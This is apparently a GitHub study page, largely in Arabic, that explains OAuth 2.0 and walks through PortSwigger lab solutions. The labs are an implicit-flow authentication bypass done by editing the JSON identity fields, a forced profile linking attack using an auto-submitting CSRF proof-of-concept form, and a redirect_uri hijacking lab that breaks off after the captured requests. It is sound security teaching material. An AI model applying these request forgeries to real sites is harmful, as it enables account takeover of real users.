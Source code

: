 # OAauth 

* <details>
     <summary>What is OAuth and how it work?</summary>

  # 🚀 شرح OAuth 2.0 ببساطة
  
  ## ما هو OAuth؟
  - **OAuth** عبارة عن **إطار عمل (Framework) للتفويض Authorization**.  
  - فكرته الأساسية:  
    التطبيق (مثلاً موقع ألعاب) ممكن يطلب صلاحيات محدودة من حسابك في خدمة تانية (زي Google أو Facebook) **من غير ما يعرف الباسورد بتاعك**.  
  - ده بيدي للمستخدم تحكم: يقدر يوافق يشارك بيانات معينة (زي قائمة أصدقائه) من غير ما يدي صلاحيات كاملة أو يسلّم حسابه بالكامل.  
  
  📌 **مثال**: تطبيق عايز يعمل "Find Friends" → يطلب منك صلاحية الدخول على الـ contacts في Gmail.  
  
  ---
  
  ## الفايدة الأكبر
  - بدل ما المستخدم يدخل الباسورد بتاعه في مواقع كتير → يدخل مرة واحدة في Google/Facebook.  
  - الموقع التاني ياخد **Access Token** يقدر يستخدمه عشان يجيب البيانات المسموح بيها فقط.  
  
  ---
  
  ## 👥 أطراف اللعبة في OAuth 2.0
  1. **Client Application**: الموقع اللي عايز يستخدم بياناتك (مثلاً موقع يشغّل خدمة).  
  2. **Resource Owner**: المستخدم نفسه (إنت).  
  3. **OAuth Service Provider**: الجهة اللي عندها بياناتك (مثلاً Google, Facebook).  
     - فيها **Authorization Server** (اللي بيأكّد الهوية ويطلع Access Token).  
     - وفيها **Resource Server** (اللي فيه الـ API والبيانات).  
  
  ---
  
  ## 🔄 خطوات العملية (Simplified Flow)
  1. **Client App** يطلب منك تصريح: "ممكن أخد صلاحية X من حسابك؟".  
  2. أنت بتروح على صفحة Google/Facebook، تعمل Login وتوافق على الطلب.  
  3. لو وافقت: السيرفر (Google) يدي التطبيق **Authorization Code** (أو Access Token على طول حسب نوع الـ Flow).  
  4. التطبيق يستخدم الكود عشان ياخد **Access Token** من الـ Authorization Server.  
  5. التطبيق يستخدم الـ Token ده عشان يكلم الـ Resource Server ويجيب البيانات اللي إنت وافقت عليها.  
  
  ---
  
  ## 📚 أنواع الـ Flows (Grant Types)
  - **Authorization Code Flow** (الأكثر شيوعًا – آمن):  
    - التطبيق ياخد **Code** مؤقت → يبدّله بـ **Access Token** من السيرفر.  
    - ميزة: التوكين مش بيعدي عبر الـ URL مباشرة (أأمن).  
  
  - **Implicit Flow** (قديم – أقل أمان):  
    - التطبيق بياخد **Access Token** مباشرة في الـ URL.  
    - مشاكل: ممكن يتسرب في الـ logs أو الـ referrer.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth مش نظام Authentication (هو أساسًا **Authorization**).  
  - لكنه بيستخدم بشكل واسع في **Social Login** (تسجيل الدخول بجوجل/فيسبوك).  
  - بيوفر **أمان + سهولة**: المستخدم ما يشاركش كلمة السر، والتطبيق ياخد صلاحيات محدودة.  
  - أهم شيء: نفهم الـ Flows (Authorization Code / Implicit) قبل ما ندخل في ثغراته.  
  
  
  
  
  ---
  ---
  
  # 🔑 OAuth كـ Authentication (تسجيل دخول)
  
  ## ما الفرق عن OAuth الأصلي؟
  - **الفكرة الأصلية لـ OAuth**: كان معمول علشان *التفويض* (Authorization) → يعني السماح لتطبيق معيّن ياخد صلاحيات محدودة من حسابك.  
  - **لكن مع الوقت**: بدأوا يستخدموه كمان في *المصادقة* (Authentication) → تسجيل الدخول بحساب خارجي زي Google أو Facebook.  
  
  📌 يعني بدل ما تسجّل في الموقع وتعمل Username/Password جديدة، تختار "Login with Google".  
  
  ---
  
  ## ⚙️ إزاي بيشتغل كـ Authentication؟
  الـ Flow الأساسي شبه الـ OAuth العادي، لكن الفرق في **إزاي الـ Client App بيستعمل البيانات**:  
  
  1. **المستخدم** يختار "تسجيل الدخول باستخدام حساب فيسبوك/جوجل".  
  2. **Client App** يطلب من خدمة OAuth (مثلاً Google) بيانات تعريفية عن المستخدم (زي الـ email).  
  3. بعد ما السيرفر يدي **Access Token** → الـ Client App يستخدمه ويطلب بيانات المستخدم من الـ **Resource Server** (عادة من endpoint زي `/userinfo`).  
  4. السيرفر يبعت البيانات (مثلاً: email = user@gmail.com).  
  5. الـ Client App يستخدم البيانات دي بدال الـ Username/Password علشان يعرّفك في السيستم.  
     - أحيانًا الـ Access Token نفسه بيتعامل كأنه "بديل للباسورد" طول ما هو صالح.  
  
  ---
  
  ## 👀 من منظور المستخدم
  - الشكل النهائي بيشبه **SSO (Single Sign-On)** اللي معمول بـ SAML.  
  - المستخدم بيضغط زر واحد → يفتح صفحة خارجية (Google) → يوافق → يرجع للموقع وهو متسجّل دخول.  
  
  ---
  
  ## 🧪 التدريب العملي (Lab Example)
  - لما تعمل Login بالـ Social Media في الـ Lab على PortSwigger، هتشوف:  
    - **Redirects** رايحة وجاية بين الموقع وبين السيرفر (Google/Facebook).  
    - **Access Token** بيطلع من السيرفر.  
    - الموقع بيطلب `/userinfo` عشان يجيب بياناتك.  
  
  > في المعمل، تقدر تجرب تعمل Login بحساب الاختبار: **wiener:peter** وتشوف كل الـ Flow ده في Burp Proxy.  
  
  ---
  
  ## 📝 الخلاصة
  - OAuth اتطور وبقى وسيلة تسجيل دخول (Authentication) مش بس تفويض.  
  - الـ Client App مش بياخد الباسورد بتاعك → بياخد Access Token → وبيروح يجيب بيانات من السيرفر (زي الـ email) → ويدخلك بيها.  
  - النتيجة: Login سهل وسريع + أمان أعلى (ما فيش مشاركة للباسورد).  
  - لكن 👀 هنا ييجي دور الثغرات اللي ممكن تحصل أثناء العملية (هنشوفها في الـ Labs).  
  
  
  

  </details>







- <details>
     <summary>How do OAuth authentication vulnerabilities arise?</summary>
     
     # ⚠️ كيف تنشأ ثغرات OAuth Authentication؟
     
     ## 💡 أسباب ظهور الثغرات
     1. **مرونة الـ OAuth Spec**  
        - البروتوكول مش صارم وبيعتمد على إعدادات اختيارية كتير.  
        - ده بيخلي فيه مساحة لسوء إعداد (Misconfiguration).  
     
     2. **قلة وجود خصائص أمان مدمجة**  
        - الأمان بيعتمد على الـ Developers يطبقوا الإجراءات الصح (زي input validation).  
        - لو حصل إهمال → يؤدي إلى ثغرات خطيرة.  
     
     3. **إرسال بيانات حساسة عبر المتصفح**  
        - بعض الـ Flows (زي Authorization Code أو Implicit) بيعدي فيها بيانات حساسة (Access Token) من خلال المتصفح.  
        - ده ممكن يستغله المهاجم لاعتراض البيانات.  
     
     ---
     
     ## 🔍 التعرف على OAuth Authentication
     - أي موقع فيه زر **"Login with Google/Facebook/GitHub"** → غالبًا بيستخدم OAuth 2.0.  
     
     ### الطريقة الأكيدة عبر Burp:
     - شغّل Burp Proxy واعمل تسجيل دخول باستخدام Social Login.  
     - أول طلب في الـ Flow بيكون رايح على:  
     
     ```
     /authorization
     ```
     
     - وبيحتوي على باراميترات مميزة لـ OAuth:  
       - `client_id` → رقم تعريف التطبيق.  
       - `redirect_uri` → الرابط اللي هيتم التحويل عليه بعد الموافقة.  
       - `response_type` → نوع الـ Grant (token / code).  
       - `scope` → البيانات المطلوبة (مثلاً: profile, email).  
       - `state` → قيمة عشوائية لمنع CSRF.  
     
     ---
     
     ## 📌 مثال Request
     ```http
     GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=token&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
     Host: oauth-authorization-server.com
     ```
     
     ---
     
     ## 📝 الخلاصة
     - **سبب الثغرات:** مرونة البروتوكول + سوء الإعداد + مرور بيانات حساسة عبر المتصفح.  
     - **إزاي نكشفه:** نحلل الـ Requests في Burp ونشوف باراميترات OAuth (`client_id`, `redirect_uri`, `response_type`, إلخ).  
     
          
</details>


























# OAuth authentication Labs 




<details>
  <summary>Lab: Authentication bypass via OAuth implicit flow</summary>

1. login with **`wiener : peter`**
2. go to ``http history`` in burp

```
POST /authenticate HTTP/2
Host: 0a4d00a404a21971801a6239001b004c.web-security-academy.net
Cookie: session=ysuWtiBhdYmkXnGRsG3NrvyppQVIhu0w
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 103
Origin: https://0a4d00a404a21971801a6239001b004c.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers


{
  "email":"wiener@hotdog.com",
  "username":"wiener",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```
   
`change jsaon content to:`

```
{
  "email":"carlos@carlos-montoya.net",
  "username":"carlos",
  "token":"z_FeEMGkJ9NtWwvU9zrSwhScgQdn47ZzEf8GpgcEB3r"
}
```

> after that click **`show response in browser`**

<img width="752" height="51" alt="image" src="https://github.com/user-attachments/assets/7f8e2109-d3c0-46bb-9ca6-d77a8a8b9578" />

<img width="1390" height="536" alt="image" src="https://github.com/user-attachments/assets/9a8e8ece-b078-4b45-8b0e-a0b1413996c2" />


 
</details>






<details>
     <summary>Lab: Forced OAuth profile linking</summary>

> ## **`To solve the lab, use a CSRF attack to attach your own social media profile to the admin user's account on the blog website, then access the admin panel and delete carlos. `**
>
>  The admin user will open anything you send from the exploit server and they always have an active session on the blog website.

> You can log in to your own accounts using the following credentials:

-  Blog website account:`` wiener:peter``
-  Social media profile:`` peter.wiener:hotdog``


----

1. login with ``wiener:peter``

<img width="1273" height="537" alt="image" src="https://github.com/user-attachments/assets/ff27a0db-4598-4647-b7ba-a28c62d40fb9" />

2. click **``Attach a social profile``**

<img width="907" height="437" alt="image" src="https://github.com/user-attachments/assets/80696210-7ea5-4def-9f15-518fd442c4aa" />

3. now click on **``Attach a social profile``** again and see the request 

```http
GET /oauth-linking?code=YY52NQhSrmG4yvxAM5UPtPhrwgBimnWuPsBRXnNmo0x HTTP/2
Host: 0af400fc034fa721828c2e1b008a00fe.web-security-academy.net
Cookie: session=zhztY0fc04nIrQw0u2jRWNHd4UdZ6hl7
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0af400fc034fa721828c2e1b008a00fe.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

4. after that do **`CSRF poc`**


```html
<html>
<body>
  <form action="https://0af400fc034fa721828c2e1b008a00fe.web-security-academy.net/oauth-linking" method="GET">
    <input type="hidden" name="code" value="YY52NQhSrmG4yvxAM5UPtPhrwgBimnWuPsBRXnNmo0x" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```
   
5. store it and send it to victem 

<img width="1248" height="399" alt="image" src="https://github.com/user-attachments/assets/9f87e559-8142-48b3-aed0-9c5bc5904b3d" />

6. after that go back to ****`my-account`**** you will find that usernme disappeared


<img width="1237" height="551" alt="image" src="https://github.com/user-attachments/assets/161ee210-ee49-43bd-b910-e2f726be7c61" />

7. now logout and login again but with socialmedia profile **`peter.wiener:hotdog`**

<img width="1460" height="464" alt="image" src="https://github.com/user-attachments/assets/fc767282-bf95-4610-b139-a0d0cada186b" />

<img width="1422" height="450" alt="image" src="https://github.com/user-attachments/assets/b65ab03a-f146-42c5-b836-36b498f27959" />


```
الثغرة حصلت لأن الموقع سمح بربط OAuth profile من غير أي تحقق إضافي.
فالمهاجم قدر يبعث CSRF للضحية، وبكده يرغم حساب الضحية إنه يرتبط بحساب OAuth بتاع المهاجم.
النتيجة: المهاجم يقدر يدخل بحساب الضحية باستخدام OAuth login → account hijacking كامل.
```

     
</details>












<details>
     <summary>Lab: OAuth account hijacking via redirect_uri</summary>

> ###  To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete the user carlos.

> The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

> You can log in with your own social media account using the following credentials: ``wiener:peter``. 


----


click on **`my account`** and intercept the request with burp

<img width="919" height="189" alt="image" src="https://github.com/user-attachments/assets/62a1f3d7-f094-42e0-9790-7075f623621a" />

> you will found two interested requests

**``_first request_ 🟩``**

```http
GET /auth?client_id=iy51f2tj0ixwem692hh0t&redirect_uri=https://0a910017032e61e280a8037a00770034.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0ab0006c03ae611b807c0195020900ee.oauth-server.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Te: trailers
Connection: keep-alive

```

**``_second request_ 🟠``**

```http
GET /oauth-callback?code=v56NTxN-NphRmcLC51s9LQV2iGtbhr5uXlcCHumO2KD HTTP/2
Host: 0a910017032e61e280a8037a00770034.web-security-academy.net
Cookie: session=wkh6g0tWFNuw8BNfVbGNBwRhnpPx4tMu
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://oauth-0ab0006c03ae611b807c0195020900ee.oauth-server.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

> ### send both to repeater 

> now see the response of them 

**_`first response 🟩`_**

```http

```

     
</details>

























 
